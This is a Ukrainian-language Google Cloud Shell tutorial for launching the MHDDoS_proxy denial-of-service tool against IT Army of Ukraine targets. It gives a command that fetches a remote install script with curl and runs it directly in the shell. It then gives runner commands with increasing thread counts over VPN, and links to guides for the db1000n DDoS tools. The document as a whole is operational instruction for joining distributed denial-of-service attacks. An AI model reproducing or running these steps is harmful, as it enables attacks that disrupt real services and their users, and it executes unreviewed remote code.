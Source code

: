 
#   Все буде Україна! 💙💛

## Бажаю вам гарного дня!

###  Запуск MHDDoS_proxy

- для початківців пропоную хоча б частково ознайомитись з  інструкцією 👉  [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

### ☁️  Cloud Shell  зараз працє в  ефемерному режимі
- це означає що все створене під час цього сеансу видалиться разом з віртуальною машиною  **після закінчення даного сеансу**

###  Зверніть увагу   
- якщо з'єднання перервано, бажано  **перезавантажитись** натиснувши кнопку

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)

Щоб перейти до запуску **MHDDoS_proxy** натисніть **START**

 ## Давайте почнемо
-  для запуска MHDDoS_proxy скопіюйте команду розташовану нижче та натисніть клавішу **ENTER** 
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/mhddos_proxy_install.sh)
```
-   якщо деякий час все працює без ***роз'єднань***, можна підвищити потужність. Для цього *зупиніть* процес натиснувши **Ctrl+C** та запустіть наступну команду
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 500 --itarmy --vpn
```
-   або наступну команду ще з більшою потужністю
```bash
cd ~/ && cd mhddos_proxy && ./runner.sh python3 -t 600 --itarmy --vpn
```
### 
Щоб переглянути навантаження на процесор використаємо команду **htop**
-   для цього додайте ще один термінал натиснувши 
<walkthrough-open-cloud-shell-button open-cloud-shell><walkthrough-open-cloud-shell-button open-cloud-shell/>

    та виконайте наступну команду
```bash
htop
```

## Пропоную для ознайомлення:

* натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **«Death by 1000 needles» (db1000n)**.

[![Open in Cloud Shell](https://telegra.ph/file/22b02a59993bd344b2bc9.png)](https://shell.cloud.google.com/cloudshell/open?shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

* інструкція для початківців   
 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)

* інструкція для більш досвідчених   
 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
 
* офіційна сторінка   [⚡ It Army of Ukraine ⚡](https://itarmy.com.ua/)  має багато корисної інформації   

##  **Все буде Україна! 💙💛**

<walkthrough-conclusion-trophy>
</walkthrough-conclusion-trophy>
Натиснувши кнопку FINISH довідка закриєця і ви перейдете до головного меню довідника Google Cloud Shell.   
Кнопка PREVIOUS поверне вас на попередню сторінку.

<walkthrough-footnote>Звертайтесь patatakartata@gmail.com або @patatakartata</walkthrough-footnote>
